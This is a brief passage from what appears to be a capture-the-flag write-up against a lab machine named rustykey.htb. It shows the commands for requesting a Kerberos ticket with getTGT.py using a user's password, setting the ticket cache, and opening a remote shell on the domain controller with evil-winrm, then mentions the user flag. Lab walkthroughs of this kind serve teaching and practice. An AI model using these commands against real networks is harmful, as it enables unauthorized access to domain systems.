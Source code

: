 Then obtain the TGT and login using `evil-winrm`.
```
getTGT.py rustykey.htb/BB.MORGAN:'cocoRocks@1'
export KRB5CCNAME=BB.MORGAN.ccache
evil-winrm -i dc.rustykey.htb -r rustykey.htb
```

The user flag can be found on the Desktop of __BB.MORGAN__.
![The user flag](./user-flag.png)

Futhermore, on the Desktop, we find an internal memo of the company.